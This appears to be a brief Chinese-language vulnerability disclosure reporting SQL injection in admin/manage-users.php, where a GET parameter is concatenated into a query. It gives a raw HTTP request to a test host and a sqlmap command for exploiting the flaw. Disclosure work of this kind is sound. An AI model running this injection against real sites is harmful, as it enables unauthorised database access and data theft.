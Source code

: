 admin/manage-users.php文件中 $adminid 直接拼接到sql语句中，而$adminid是通过GET请求直接获取的


![alt text](manage-users.php%20sql%20inject-1.png)
构造恶意数据包
GET /admin/manage-users.php?id=1 HTTP/1.1
Host: test.jc
Cookie: PHPSESSID=6keshioktp2eu9p7fg0ent8hk2
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Referer: http://test.jc/admin/
Accept-Language: zh-CN,zh;q=0.9

run sqlmap -r get.txt --level 3


![alt text](manage-users.php%20sql%20inject-2.png)
